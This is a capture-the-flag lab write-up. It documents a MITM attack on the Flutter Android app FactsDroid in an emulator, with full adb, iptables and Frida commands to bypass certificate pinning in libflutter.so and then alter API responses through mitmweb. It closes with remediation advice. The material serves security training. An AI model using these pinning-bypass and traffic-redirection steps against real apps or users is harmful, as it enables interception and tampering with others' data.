




<p align="center">
  
  
  
  
</p>

<h1 align="center">FactsDroid MITM Lab</h1>
<h3 align="center">Dynamic Response Tampering on Flutter Android - 8kSec Challenge</h3>

<p align="center">
  <a href="https://github.com/Byabato"></a>
   <a href="https://www.linkedin.com/in/kelvin-byabato/"></a>
  <a href="mailto:kelvinbyabato92@gmail.com"></a>
</p>

--- 

- **Author:** Kelvin Byabato  
- **Target Package:** `com.eightksec.factsdroid` (`FactsDroid.apk`)  
- **Environment:** Android 14 (API 34, `x86_64` Google APIs AVD)
- **Tools:** Frida `17.27.5`, `mitmproxy` (`mitmweb`), Docker
- **Status:** ✅ Completed

---

## 1. Challenge Objective & Scope Compliance

The objective of **FactsDroid** is to perform a Machine-in-The-Middle (MITM) attack to intercept and dynamically tamper with API responses displayed in the application while adhering strictly to the challenge restrictions:

- **No Static APK Modification:** The original `FactsDroid.apk` was installed and tested completely unmodified (no static patching or repackaging).

- **Modern Android Target (Android 14+):** Executed on an **Android 14 (API Level 34)** virtual device.

- **Response-Only Tampering:** Outgoing client `GET` requests to `https://jsph.pl` were forwarded completely untouched; only the server's HTTP response payload was modified.


### Why This Lab Is Non-Trivial

FactsDroid is built with **Flutter**, which embeds **BoringSSL** inside `libflutter.so`. Consequences:

1. **System proxy ignored** — Wi-Fi proxy settings do not affect Flutter traffic.
2. **System CA store ignored** — Installing mitmproxy’s CA is insufficient; pinning is enforced in native code.
3. **System-wide iptables breaks Android connectivity probes** — Android’s `NetworkMonitor` reports “no internet.”

**My approach:** UID-scoped `iptables` + `adb reverse` + Frida runtime hook + mitmweb reverse proxy.

---

## 2. Reconnaissance & Technical Architecture

### 2.1 Application Behavior & Network Stack Analysis
1. **Baseline Testing:** Installing and launching the untouched `FactsDroid.apk` without instrumentation, then tapping the **Random Fact** button... resulted in a UI error (*"Failed to fetch fact. API might be down"*).

2. **Logcat Inspection:** Inspecting `adb logcat` revealed the underlying Dart/Flutter exception:

   ```text
   HandshakeException: Handshake error in client (OS Error:
       CERTIFICATE_VERIFY_FAILED: unable to get local issuer certificate(handshake.cc:391))
   Pinning validation likely failed. Check certificate.
   ```
3. **Root Cause:** FactsDroid is built with **Flutter**, which compiles BoringSSL directly into `libflutter.so`. Consequently, the application:
    - Ignores Android's system-wide Wi-Fi HTTP proxy settings.
    - Bypasses Android's user/system CA trust store and enforces certificate pinning inside native BoringSSL code (`ssl_verify_peer_cert`).

4. **Why this matters:** It proves the failure is TLS pinning, not a dead server. This is the starting point every evaluator expects to see.

### 2.2 Interception Architecture
To intercept and manipulate traffic dynamically without altering the APK on disk:

```text
[FactsDroid App (Android 14, UID 10194)]
       |  1. Frida hooks ssl_verify_peer_cert (0x7c4c99) in memory
       v
[UID-Scoped iptables DNAT (TCP 80/443 -> 127.0.0.1:8080)]
       |  2. Isolates FactsDroid traffic without breaking OS NetworkMonitor
       v
[ADB Reverse Tunnel (tcp:8080 -> Host tcp:8080)]
       |  3. Forwards emulator loopback cleanly to host proxy
       v
[mitmweb Reverse Proxy (reverse:https://jsph.pl)]
       |  4. Forwards GET request untouched; pauses & modifies JSON response (~s)
       v
[Upstream API: https://jsph.pl/api/v2/facts/random]
```
---

## 3. Step-by-Step Interception & Exploitation Workflow

### 🖥️ Step 1: Rooted Android 14 Emulator & Untouched APK Deployment
A **Pixel 7 Android 14 (API 34) `x86_64` Google APIs** emulator was provisioned so `adb root` could be enabled while meeting the Android 14+ requirement. The matching `x86_64` `frida-server` daemon was deployed and the original APK installed:

```powershell
adb -s emulator-5554 root
adb -s emulator-5554 push "frida-server-17.27.5-android-x86_64" /data/local/tmp/frida-server
adb -s emulator-5554 shell "chmod 755 /data/local/tmp/frida-server && /data/local/tmp/frida-server -D &"
adb -s emulator-5554 install FactsDroid.apk
```

### 🐳 Step 2: Reverse Proxy Setup (`mitmweb` in Docker) 
`mitmweb` was launched in reverse proxy mode pointing upstream to `https://jsph.pl` on port `8080`, with the web UI exposed on `http://localhost:8081/?token=facts`:

```powershell
docker run --rm -it -p 8080:8080 -p 127.0.0.1:8081:8081 mitmproxy/mitmproxy mitmweb --web-host 0.0.0.0 --set web_password=facts --mode reverse:https://jsph.pl
```

<div align="center">

| Docker Concept | In This Lab |
| :--- | :--- |
| **Image** | `mitmproxy/mitmproxy` pulled from Docker Hub |
| **Container** | `--rm` creates a temporary container, deleted on exit |
| **Port mapping** | `8080` proxy; `8081` web UI bound to `127.0.0.1` only |
| **Reverse mode** | `mitmproxy` accepts traffic from `adb reverse` and forwards to the upstream API |
| **Reachability** | `emulator` -> `adb reverse` -> `host :8080` -> `container` -> `upstream` |

</div>

NB: The log line `Client TLS handshake failed:` is expected before Frida attaches; it proves pinning is active. After Frida patches `ssl_verify_peer_cert`, the error disappears.


### ⚙️ Step 3: Run the Script (`start_lab.ps1`)
What It Does
1. ``adb root``
2. Flush ``iptables``, reinstall the untouched APK
3. Push and start ``frida-server``
4. ``adb reverse tcp:8080 tcp:8080``
5. Apply UID-scoped ``iptables`` DNAT for ports 80/443 to ``127.0.0.1:8080``
6. Pause and prompt you to bring FactsDroid to the foreground, then press Enter
7. Attach Frida with ``--codeshare TheDauntless/disable-flutter-tls-v1``

Key output:
```
[+] ssl_verify_peer_cert found at offset: 0x7c4c99
[+] ssl_verify_peer_cert has been patched
```

#### Step 3.1: UID-Scoped Traffic Redirection
To avoid hijacking Android's system connectivity probe (`https://google.com`), `iptables` DNAT rules were scoped exclusively to FactsDroid's Linux UID (`10194`) and tunneled to the host via `adb reverse`:

```powershell
adb -s emulator-5554 reverse tcp:8080 tcp:8080
adb -s emulator-5554 shell "sysctl -w net.ipv4.conf.all.route_localnet=1"

$uid = (adb -s emulator-5554 shell "dumpsys package com.eightksec.factsdroid | grep appId=").Trim().Split("=")[-1]
adb -s emulator-5554 shell "iptables -t nat -F OUTPUT"
adb -s emulator-5554 shell "iptables -t nat -A OUTPUT -p tcp --dport 80 -m owner --uid-owner $uid -j DNAT --to-destination 127.0.0.1:8080"
adb -s emulator-5554 shell "iptables -t nat -A OUTPUT -p tcp --dport 443 -m owner --uid-owner $uid -j DNAT --to-destination 127.0.0.1:8080"
```

#### Step 3.2: Runtime TLS Pinning Bypass via Frida
With FactsDroid running in the foreground, Frida attached to the live process (`-N com.eightksec.factsdroid`) and dynamically patched `ssl_verify_peer_cert` inside `libflutter.so` in memory:

```powershell
frida -D emulator-5554 --codeshare TheDauntless/disable-flutter-tls-v1 -N com.eightksec.factsdroid
```

> **Note on `libflutter.so`:** It is packaged inside the APK, but Frida modifies it **only in process memory** at runtime. The APK file on disk: hash, signature, contents ... remains unchanged. This is dynamic instrumentation, not static patching, and is explicitly permitted.


**Verification Output:**
```text
[+] Pattern version: Jan 26 2026
[+] Arch: x64
[+] Platform:  linux
[ ] Locating Flutter library 1/5
[+] Flutter library located
[+] ssl_verify_peer_cert found at offset: 0x7c4c99
[+] ssl_verify_peer_cert has been patched
```
<div align="center">



*(Screenshot 1: Frida terminal confirming runtime patch of `ssl_verify_peer_cert`)*

</div>

### Step 5: Response-Only Tampering in `mitmweb`
1. In `mitmweb`, the **Intercept** filter was configured to **`~s`**, ensuring that outgoing client `GET` requests passed to `uselessfacts.jsph.pl` completely unmodified while HTTP responses were paused for inspection.



2. Tapping the fetch button in FactsDroid triggered `GET https://jsph.pl/api/v2/facts/random`:

**Unmodified Outgoing Request:**
```http
GET https://jsph.pl/api/v2/facts/random HTTP/1.1
user-agent: Dart/3.7 (dart:io)
accept-encoding: gzip
host: uselessfacts.jsph.pl
```



*(Screenshot 2: `mitmweb` showing the unmodified request and edited JSON response)* 

**Original Server Response (`200 OK`):**
```json
{
    "id": "81a6de49abf407012249bbe76d92e702",
    "text": "In Quebec, there is an old law that states margarine must be a different color than butter.",
    "source": "djtech.net",
    "source_url": "https://djtech.net",
    "language": "en",
    "permalink": "https://jsph.pl/api/v2/facts/81a6de49abf407012249bbe76d92e702"
}
```

3. Using `mitmweb`'s **Response -> Edit** editor, the `"text"` field was modified, saved, and resumed back to the emulator:



**Tampered Response Delivered to App:**
```json
{
    "id": "81a6de49abf407012249bbe76d92e702",
    "text": "[Custom Injected Fact via Dynamic MITM — Rwegasila Byabato]",
    "source": "djtech.net",
    "source_url": "https://djtech.net",
    "language": "en",
    "permalink": "https://jsph.pl/api/v2/facts/81a6de49abf407012249bbe76d92e702"
}
```
<p align="center">
  <kbd>
    
  </kbd>
  <br><br>
  <em>(Screenshot 3: FactsDroid Android 14 UI displaying the custom injected fact)</em>
</p>

---

## 4. Security Impact & Remediation
- **Impact:** Any attacker positioned on the network (or a user with runtime instrumentation access on a compromised/rooted device) can bypass certificate pinning and inject arbitrary content into the client UI and local favorites vault because the client implicitly trusts response payloads once TLS terminates.

- **Remediation:**
    1. **Dynamic Pin Management:** Pin intermediate/root SPKI hashes with backup pins and remote configuration updates rather than hardcoding single leaf certificates that expire.

    2. **Runtime Anti-Tampering:** Implement native integrity checks on `libflutter.so` (`r-x` text segment checksums) and Frida detection to deter dynamic memory patching.

    3. **Payload Signing:** Sign API responses server-side (e.g., JWS/HMAC) and validate signatures in the client prior to rendering or persisting records.


---
<br/><br/>
<p align="center">
  <strong>🛡️ Disclaimer</strong><br/>
  <em>This report is for the 8kSec authorized challenge environment only.<br/>
  All testing was performed on a dedicated emulator. No real user data or production servers were touched.</em>
</p>

<p align="center">
  <strong>📬 Contact</strong><br/>
  <a href="https://github.com/Byabato">GitHub</a> ·
  <a href="https://www.linkedin.com/in/kelvin-byabato/">LinkedIn</a> ·
  <a href="mailto:kelvinbyabato92@gmail.com">Email</a>
</p>

<p align="center">
  <sub>Built with ☕ and curiosity · © 2026 Kelvin Byabato</sub>
</p>